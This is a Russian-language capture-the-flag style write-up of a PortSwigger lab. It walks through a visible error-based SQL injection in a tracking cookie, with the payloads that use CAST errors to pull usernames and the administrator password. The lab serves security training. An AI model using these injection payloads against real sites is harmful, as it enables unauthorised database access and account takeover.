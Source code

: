 ```yaml
---
title: "Visible error-based SQL injection"
date: 2025-06-19
tags: [sqli, writeup]
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based)


## Scope

```
https://0a75008704f2164580726c3600ac0013.web-security-academy.net/
```

В данной лабе присутствует **Error based  SQL injection** в параметре `Cookie`. В БД есть таблицы с именам `users` и колонками `username` и `password`. Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.


## Solution

Так как уязвимость в `Cookie`, то возьму `GET`-запрос с выставленными значениями.

```http
GET / HTTP/2
Host: 0a75008704f2164580726c3600ac0013.web-security-academy.net
Cookie: TrackingId=dUrA4au9zQX6dlb5; session=5UhSQKjfJwXutcIvFyn3RNseuyAD7ybb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a75008704f2164580726c3600ac0013.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Скорее всего уязвимым является параметр `TrackingId`. Подберу обрамелние и пейлоад:

```
dUrA4au9zQX6dlb5'-- -Error
```

Я получил следующую ошибку с описанием:

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/1.png){: height="200" .align-center}

Из текста видно, что для обрамления используются одинарные кавычки. Тогда подберу пейлоад:

```
dUrA4au9zQX6dlb5' or false-- -Ok
dUrA4au9zQX6dlb5' or true-- -Ok
dUrA4au9zQX6dlb5' and false-- -Ok
dUrA4au9zQX6dlb5' and true-- -Ok
```

Обрамление работает, но содержимое не отображается. Попробую специально вызывать ошибку с помощью `CAST`:

```
dUrA4au9zQX6dlb5' and 1=CAST((SELECT 'a') AS int)-- -Error
```

Я получил следующую ошибку:

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/2.png){: height="200" .align-center}

Попробую получить имена пользователей:

```
' and 1=CAST((SELECT username FROM users) AS int)-- -Error
```

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/3.png){: height="200" .align-center}

Из сообщения видно, что в БД лежит больше одного логина, поэтому я использую `LIMIT`, чтобы получать значения по одному:

```
' and 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- -
```

Получил следующий ответ:

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/4.png){: height="200" .align-center}

Получу пароль таким же образом:

```
' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/5.png){: height="200" .align-center}

Пароль получен: `oar4hhxs5cflalzuprmh`. Попробую зайти в аккаунт администратора:

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/6.png){: height="200" .align-center}

Лаба решена:3

